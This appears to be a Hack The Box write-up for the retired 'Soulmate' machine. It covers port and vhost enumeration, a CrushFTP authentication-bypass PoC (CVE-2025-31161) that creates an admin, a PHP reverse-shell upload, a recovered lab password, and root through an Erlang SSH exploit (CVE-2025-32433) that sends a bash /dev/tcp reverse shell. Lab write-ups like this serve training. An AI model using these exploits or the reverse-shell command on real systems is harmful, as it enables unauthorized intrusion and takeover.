









# Soulmate

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-tags">
<span class="wu-tag">CrushFTP</span>
<span class="wu-tag">PHP upload</span>
<span class="wu-tag">Erlang SSH</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    Soulmate used a file-transfer service as the bridge into the web root. Local enumeration then exposed both Ben's password and an Erlang SSH service that was separate from the host's normal SSH login.

## Attack path

1. Create a CrushFTP admin account through the recorded authentication bypass.
2. Reset the FTP user's password, upload PHP, and recover Ben's host credentials.
3. Exploit the internal Erlang SSH service from a local session.

[HTB machine](https://app.hackthebox.com/machines/721) · [Official retirement evidence](https://labs.hackthebox.com/achievement/machine/2048041/721) (checked November 17, 2026).

## Enumeration

```fish
set -x IP 10.10.11.86

# Initial fast port discovery
set ports (nmap -p- --min-rate=1000 -T4 -n --open $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') && echo $ports

# Nmap TCP Scan
sudo nmap -p$ports -sC -sV $IP -oG scan_tcp

# Nmap UDP Scan
sudo nmap -sU --top-ports 200 -T4 --min-rate=300 -oA udp_top200 $IP
```

### Enumeration Results
```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Soulmate - Find Your Perfect Match
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 8.00 seconds

----- UDP -----
PORT      STATE  SERVICE
443/udp   closed https
800/udp   closed mdbs_daemon
1022/udp  closed exp2
1027/udp  closed unknown
1029/udp  closed solid-mux
2049/udp  closed nfs
49192/udp closed unknown
```

### Service Enumeration
#### 80
```bash
sudo nano /etc/hosts
10.10.11.86 soulmate.htb
```

Subdomain search:
```bash
ffuf -u 'http://soulmate.htb/' -H 'Host: FUZZ.soulmate.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 154
```

Note: `-fs 154` is used to filter out responses with size 154. Do not try to filter out 302 responses, however, as this will cause the intended subdirectory to be filtered out.

<figure class="wu-evidence" markdown>

<figcaption>Virtual-host discovery finds the FTP hostname.</figcaption>
</figure>

Add `ftp.soulmate.htb` to `/etc/hosts` file, then navigate to the site to be redirected to a CrushFTP web host. By searching `crushftp exploit` on Google, we can find the following CVE and associated POC:

[Reference](https://github.com/Immersive-Labs-Sec/CVE-2025-31161)

```bash
python3 cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --new_user taylor --password taylor
```

We can now login with `taylor:taylor` as an admin. 

Navigate to the Admin portal

<figure class="wu-evidence" markdown>

<figcaption>The newly created account reaches the CrushFTP admin interface.</figcaption>
</figure>

Then, select User Management. We can then choose to edit the password for any user we see below.
<figure class="wu-evidence" markdown>

<figcaption>User management permits changing Ben&#x27;s FTP password.</figcaption>
</figure>

Edit the password for `ben` and login with this account (notice when exploring the files using the web UI, `ben` has access to the web portal we found on port `80`)

Now, we can upload a PHP reverse shell, then access it by navigating to `soulmate.htb/rev.php` while having an appropriate NC listener open.

<figure class="wu-evidence" markdown>

<figcaption>The uploaded PHP file returns a www-data shell.</figcaption>
</figure>

---
## Foothold
Upload linpeas onto the target, then run as our service account `www-data`

Note the following command ran as `root` from the screenshot below:

<figure class="wu-evidence" markdown>

<figcaption>The process list exposes the privileged Erlang startup script.</figcaption>
</figure>

If we inspect the file shown in the script below, we can find the password for user `ben`
```bash
cat /usr/local/lib/erlang_login/start.escript
```

<figure class="wu-evidence" markdown>

<figcaption>The Erlang script contains Ben&#x27;s lab login password.</figcaption>
</figure>

Now, we can SSH onto our target and gain our first user flag as `ben`:
```bash
ssh ben@10.10.11.86
Password: HouseH0ldings998
```

---
## Privilege escalation

Notice from the script above found as the service user, we see a service running on port 2222. This can be verified by viewing the running services on the target.

<figure class="wu-evidence" markdown>

<figcaption>Local socket enumeration shows the additional service on port 2222.</figcaption>
</figure>

Now, attempt to banner grab the service from the target, as user `ben`, to receive the following:
```bash
nc 127.0.0.1 2222
```

<figure class="wu-evidence" markdown>

<figcaption>The local listener identifies itself as Erlang SSH.</figcaption>
</figure>

Copy the banner into Google to find that this version is vulnerable to CVE-2025-32433. Below is a working POC for the exploit:

[Reference](https://github.com/0xPThree/cve-2025-32433)

Since our target host has `python3` installed, we can copy/paste the POC from the GitHub link above and create a new file: `0xp.py`

Now, open another SSH terminal with user `ben`, then open a local NC listener on port 4488:

```bash
ben@soulmate:~$ nc -lvnp 4488
```

Finally, run the POC to obtain a shell as `root` on the target.
```bash
ben@soulmate:~$ python3 0xp.py 
[*] Connecting to SSH server...
[✓] Banner: SSH-2.0-Erlang/5.2.9
[*] Sending KEXINIT...
[*] Opening channel...
[?] Shell command: bash -i >& /dev/tcp/127.0.0.1/4488 0>&1
[*] Sending CHANNEL_REQUEST...
[✓] Payload sent.
```

<figure class="wu-evidence" markdown>

<figcaption>The Erlang SSH exploit callback returns a root identity.</figcaption>
</figure>

## Lessons learned

The normal host SSH service and the internal Erlang SSH service had different security properties. Rechecking local listeners after obtaining Ben's account exposed the second service and its privileged execution context.
